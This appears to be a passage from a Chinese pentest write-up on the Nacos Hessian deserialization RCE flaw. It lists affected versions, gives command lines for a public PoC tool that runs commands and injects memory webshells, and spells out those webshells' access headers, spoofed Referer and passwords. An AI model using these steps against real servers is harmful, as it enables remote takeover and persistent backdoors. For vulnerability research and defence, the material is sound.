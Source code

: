 ![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaf6QDfDALneyic81IicRCoofd1NmuvDt8pLN0DhYNb8CiaQz8P5FibHGDMQ/640?wx_fmt=jpeg&from=appmsg "")  
  
我只是复现到这了，试了几个，没成功就停了。  
  
这个是靶场成功的链接  
  
内网渗透 -春秋云镜篇之Hospital-腾讯云开发者社区-腾讯云  
### 8.Nacos Hessian 反序列化漏洞  
  
由于7848端口采用hessian协议传输数据，反序列化未设置白名单导致存在RCE漏洞。  
  
影响版本：1.4.0<=Nacos<1.4.6, 2.0.0<Nacos<2.2.3  
  
Nacos 1.x在单机模式下默认不开放7848端口，故该情况通常不受此漏洞影响，但是集群模式受影响。然而，2.x版本无论单机或集群模式均默认开放7848端口。  
  
主要受影响的是7848端口的Jraft服务。  
  
漏洞复现  
  
测试版本nacos 2.2.2  
  
poc：https://github.com/c0olw/NacosRce  

```
java -jar NacosRce.jar http://xxx:8848/nacos 7848 &#34;whoami&#34;
```

  
执行命令同时注入内存马  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiauRx7CocqfL7tSOPPwzvCOQlCicwmaTWM009ibP6fiaEsGp7b9BrlGV3VQ/640?wx_fmt=jpeg&from=appmsg "")  
  
直接使用webshell管理工具进行链接即可  
  
自动注入内存马并执行命令 java -jar NacosRce.jar Url Jraft端口 "Command"  
  
java -jar NacosRce.jar http://192.168.90.1:8848/nacos  7848 "whoami"  
只注入内存马  
  
java -jar NacosRce.jar http://192.168.90.1:8848/nacos 7848 memshell  
  
  
内存马说明：  
一、冰蝎内存马：  
1、需要设置请求头x-client-data:rebeyond  
2、设置Referer:https://www.google.com/  
3、路径随意  
4、密码rebeyond  
二、哥斯拉内存马：  
1、需要设置请求头x-client-data:godzilla  
2、设置Referer:https://www.google.com/  
3、路径随意  
4、密码是pass 和 key  
  
三、CMD内存马：  
1、需要设置请求头x-client-data:cmd  
2、设置Referer:https://www.google.com/  
3、请求头cmd:要执行的命令  
v0.5版本实现了：  
1、不出网漏洞利用  
2、可多次发起漏洞利用  
3、同时注入冰蝎/哥斯拉/CMD内存马  
4、内存马对nacos多版本进行了兼容  
  